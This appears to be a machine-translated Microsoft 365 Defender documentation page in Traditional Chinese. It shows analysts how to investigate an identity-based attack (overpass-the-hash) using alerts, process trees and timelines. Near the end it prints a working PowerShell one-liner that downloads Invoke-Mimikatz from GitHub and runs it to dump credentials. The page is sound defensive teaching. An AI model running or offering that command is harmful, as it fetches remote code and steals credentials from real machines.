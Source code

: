```yaml
---
title: 以身分識別的攻擊範例
description: 逐步分析身分識別攻擊的範例。
keywords: 事件、警示、調查、關聯性、攻擊、電腦、裝置、使用者、identity、身分識別、信箱、電子郵件、365、microsoft、m365、事件回應、網路攻擊
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: josephd
author: JoeDavies-MSFT
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 204530b8b4a87215053ddcb0434e40e45271da3d
ms.sourcegitcommit: 4fb1226d5875bf5b9b29252596855a6562cea9ae
ms.translationtype: MT
ms.contentlocale: zh-TW
ms.lasthandoff: 06/08/2021
ms.locfileid: "52841003"
---
```

# <a name="example-of-an-identity-based-attack"></a>以身分識別的攻擊範例

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**適用於：**
- Microsoft 365 Defender

Microsoft Defender for Identity 可協助偵測到危及組織中身分識別的惡意企圖。 由於您的身分識別與 Microsoft 365 的 defender 整合，安全性分析程式可以深入瞭解來自于 defender 進行身分識別的威脅，例如，可疑的 Netlogon 許可權提升嘗試。

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>在 Microsoft Defender 身分識別中分析攻擊

Microsoft 365Defender 可讓分析員根據「事件」頁面之 [**警示**] 索引標籤上的偵測來源來篩選警示。 在下列範例中，會將偵測來源篩選為身分 **識別的 Defender**。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="篩選用於身分識別之 Defender 的偵測來源的範例":::

選取 **置疑的 overpass-雜湊攻擊** 警示會移至 Microsoft Cloud App Security 中顯示更詳細資訊的頁面。 您可以選擇 **深入瞭解此警示類型** 以閱讀有關 [攻擊的描述](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) 和修正建議，以進一步瞭解警示或攻擊。
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="可疑 overpass-雜湊攻擊警示的範例"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>調查 Microsoft Defender for Endpoint 中的相同攻擊

另外，分析員也可以使用 Defender for Endpoint 來深入瞭解端點上的活動。 選取事件佇列中的事件，然後選取 [ **警示** ] 索引標籤。在這裡，他們也可以識別偵測來源。 標示為 EDR 的偵測來源會代表端點偵測和回應，也就是端點的 Defender。 在此，分析員會選取 EDR 所偵測到的警示。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Defender for Endpoint 中端點偵測及回應的範例"::: 

警示頁面會顯示各種相關資訊，例如受影響裝置名稱、使用者名稱、自動調查的狀態及警示詳細資料。 警示案例會顯示流程樹狀目錄的視覺表示。 處理樹狀目錄是與警示相關的父項與子流程的階層式表示。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Defender for Endpoint 中的警示處理樹狀目錄範例"::: 

您可以展開每個流程以查看其他詳細資料。 分析員所看到的詳細資料為惡意腳本的一部分所輸入的實際命令、輸出連線 IP 位址及其他有用資訊。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Defender for Endpoint 中處理常式詳細資料的範例":::
 
透過選擇 [ **在時程表中查看**]，分析員甚至可以進一步深入判斷是否有損損的確切時間。 

Microsoft Defender for Endpoint 可以偵測許多惡意檔和腳本。 不過，由於輸出連線、PowerShell 和命令列活動有許多合法用途，所以部分活動會被視為良性，直到它建立惡意檔或活動為止。 因此，使用時間表可協助分析員將警示放入與周邊活動的內容，以判斷一般檔案系統和使用者活動所遮住的攻擊原始來源或時間。 

為做到這一點，在警示偵測 (會從紅色) 中開始，然後向下按，以判斷導致惡意活動實際開始的時間。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="在警示偵測時開始的範例"::: 

請務必瞭解及區別一般活動，例如 Windows 更新連線、Windows 信任的軟體啟用流量、其他與 Microsoft 網站的常見連線、協力廠商網際網路活動、Microsoft Endpoint Configuration Manager 活動，以及其他可疑活動的誤報活動。 若要達到此目的，一種方法是使用時間表篩選器。 有許多篩選可以反白顯示特定的活動，篩選出分析員不想要查看的任何專案。 

在下圖中，分析員已篩選為只查看網路和進程事件。 這可讓分析員查看記事本所建立之事件的網路連線與處理常式，其中的是透過 IP 位址建立連線，我們也會在處理樹狀目錄中看到。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="記事本如何用來進行惡意的輸出連線的範例"::: 

在此特定事件中，記事本是用來進行惡意的輸出連線。 不過，攻擊者只會使用 iexplorer.exe 建立連線來下載惡意的負載，因為一般 iexplorer.exe 進程會被視為一般網頁瀏覽器活動。

時程表中另一個要尋找的專案會是 PowerShell 輸出連線的使用方式。 分析師會尋找成功的 PowerShell 連線，其方式如下 `IEX (New-Object Net.Webclient)` ：主控惡意檔之網站的輸出連線。 

在下列範例中，PowerShell 是用來從網站下載並執行 Mimikatz：

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
分析員可以在搜尋列中輸入關鍵字，以快速搜尋關鍵字，只顯示使用 PowerShell 所建立的事件。 

## <a name="next-step"></a>下一步

請參閱 [網路釣魚](first-incident-path-phishing.md) 調查路徑。

## <a name="see-also"></a>另請參閱

- [事件概觀](incidents-overview.md)
- [管理事件](manage-incidents.md)
- [調查事件](investigate-incidents.md)
